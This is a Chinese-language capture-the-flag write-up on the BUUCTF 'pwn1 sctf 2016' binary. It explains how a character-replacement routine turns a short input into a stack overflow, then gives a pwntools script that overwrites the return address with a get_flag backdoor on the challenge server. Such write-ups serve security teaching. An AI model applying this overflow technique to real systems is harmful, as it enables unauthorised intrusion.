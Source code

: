 ```yaml
---
author: 
  name: Zephyr
title: pwn1 sctf 2016
date: 2022-3-19 20:42:02
permalink: /pages/2e954742e524d18b
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# pwn1 sctf 2016

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec pwn1_sctf_2016
[*] '/root/pwn1_sctf_2016'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数只调用了一个vuln函数，该函数如下

![pwn1_sctf_2016_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/pwn1_sctf_2016_1.png)

查找函数表发现后门函数get_flag

![pwn1_sctf_2016_2](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/pwn1_sctf_2016_2.png)

## 思路分析

1. 目前信息
   - 变量s处可写入32字节数据
   - s距离返回地址的偏移量为0x3c+4>32，不够溢出
   - 存在后门函数
2. replace函数
   - 查看后发现其作用为循环检测将我们输入的字符I替换为字符you
3. 思路
   - replace函数在字符替换的过程中将1个字节替换为了3个字节的数据，所以理论上可以通过输入21个I加1个a的方式溢出到返回地址处，将该处覆盖为后门函数的地址即可获得flag

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/pwn1_sctf_2016/pwn1_sctf_2016'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 28185)
elf = ELF(pwnfile)
backdoor = elf.symbols['get_flag']
payload = flat(['I'*21, 'a', backdoor])
io.sendline(payload)
io.interactive()
```
